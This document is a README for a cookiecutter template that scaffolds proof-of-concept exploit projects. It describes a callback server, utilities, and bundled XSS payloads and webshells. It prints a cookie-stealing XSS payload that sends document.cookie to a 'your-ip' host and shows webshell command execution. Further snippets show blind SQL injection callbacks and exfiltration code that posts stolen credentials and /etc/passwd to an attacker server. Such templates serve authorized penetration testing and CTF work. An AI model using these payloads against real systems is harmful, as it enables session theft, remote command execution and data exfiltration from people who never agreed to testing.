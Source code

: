 # {{ cookiecutter.project_name }}

{{ cookiecutter.poc_description }}

**Target:** {{ cookiecutter.target_name }}
**URL:** {{ cookiecutter.target_url }}

## Quick Start

```bash
# 1. Setup environment
make dev

# 2. Start callback server (terminal 1)
uv run {{ cookiecutter.project_slug }} --server

# 3. Run exploit (terminal 2)
uv run {{ cookiecutter.project_slug }} -t http://target.com
```

## Writing Your Exploit

Edit `src/{{ cookiecutter.project_slug }}/exploit.py`:

```python
from {{ cookiecutter.project_slug }}.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Testing target...")
    resp = requests.get(f"{target}/vulnerable-endpoint", verify=False)

    if "vulnerable" in resp.text:
        out.success("Target is vulnerable!")

        # Trigger callback to your server
        requests.get("http://your-ip:8000/success")
    else:
        out.error("Not vulnerable")
```

## Utilities Available

### Colored Output
```python
from {{ cookiecutter.project_slug }}.utils.output import out

out.success("Exploited!")
out.error("Failed")
out.info("Trying...")
out.warning("Slow connection")
```

### Encoding/Decoding
```python
from {{ cookiecutter.project_slug }}.utils.encoding import base64_encode, url_encode

payload = base64_encode("admin' OR '1'='1")
encoded = url_encode("<script>alert(1)</script>")
```

### Timing Utilities
```python
from {{ cookiecutter.project_slug }}.utils.timing import time_ms, identify_timestamp, epoch_range

# Generate timestamp
token = time_ms()

# Identify unknown timestamp
info = identify_timestamp("1735689600000")
print(info['type'])  # epoch_milliseconds
print(info['date'])  # 2025-01-01 00:00:00

# Generate epoch range - now accepts epoch timestamps directly!
timestamps = epoch_range(1735689600, 1735776000, step_minutes=60)  # Using epoch
timestamps = epoch_range('2025-01-01 00:00:00', '2025-01-02 00:00:00')  # Using strings
```

### Process Execution
```python
from {{ cookiecutter.project_slug }}.utils.process import run

# Run binary
stdout, stderr, code = run("./exploit")

# With input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

## Server Usage

The built-in server (`servers/server.py`):
- **Serves payloads** from `payloads/` directory
- **Logs all requests** to `logs/server.ndjson`
- **CORS enabled** for XSS testing

### Start Server
```bash
# Via CLI (port 8000)
uv run {{ cookiecutter.project_slug }} --server

# Custom port
uv run {{ cookiecutter.project_slug }} --server --port 8080

# Direct execution
uv run python servers/server.py -p 8080
```

### Check Logs
```bash
# Watch in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "xss" logs/server.ndjson | jq .
```

## Included Payloads

### XSS (`payloads/xss/`)
- `examples.txt` - Copy-paste XSS payloads
- `steal-cookie.js` - Cookie stealer
- `steal-all.js` - Full data exfiltration

Example:
```html
<img src=x onerror="fetch('http://your-ip:8000/xss?c='+btoa(document.cookie))">
```

### Webshells (`payloads/shells/`)
- `cmd.jsp` - Java servers
- `cmd.aspx` - .NET/IIS servers
- `cmd.php` - PHP servers

All shells use same interface:
```python
resp = requests.get("http://target/shell.jsp?cmd=whoami")
print(resp.text)
```

## Common Code Snippets

### HTTP Requests
```python
import requests
requests.packages.urllib3.disable_warnings()  # Disable SSL warnings

session = requests.Session()
session.verify = False  # Skip SSL verification
session.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
```

### Blind Exploitation Callbacks
```python
# SQLi boolean-based
if "admin" in result:
    requests.get(f"http://your-ip:8000/sqli?char={char}&pos={pos}")

# Time-based confirmation
import time
start = time.time()
make_request()
if time.time() - start > 5:
    requests.get(f"http://your-ip:8000/blind?confirmed=true")
```

### Data Exfiltration
```python
# POST JSON data
stolen_data = {"username": "admin", "password": "found_it"}
requests.post('http://your-ip:8000/exfil', json=stolen_data)

# POST file contents
with open('/etc/passwd', 'r') as f:
    requests.post('http://your-ip:8000/file', data=f.read())
```

## CLI Options

```bash
{{ cookiecutter.project_slug }} --help

Options:
  -t, --target URL     Target URL (default: {{ cookiecutter.target_url }})
  -p, --proxy URL      HTTP proxy for requests
  --threads N          Number of threads
  -v, --verbose        Verbose output
  --server             Start callback server
  --port N             Server port (default: 8000)
```

## Files

- `src/{{ cookiecutter.project_slug }}/exploit.py` - **Main exploit code** (edit this!)
- `src/{{ cookiecutter.project_slug }}/utils/` - Helper utilities
- `servers/server.py` - HTTP callback server
- `payloads/` - XSS payloads and webshells
- `logs/server.ndjson` - Server request logs

---

Created: {{ cookiecutter.full_name }}
Template: [cookiecutter-poc-uv](https://github.com/kwkeefer/cookiecutter-poc-uv)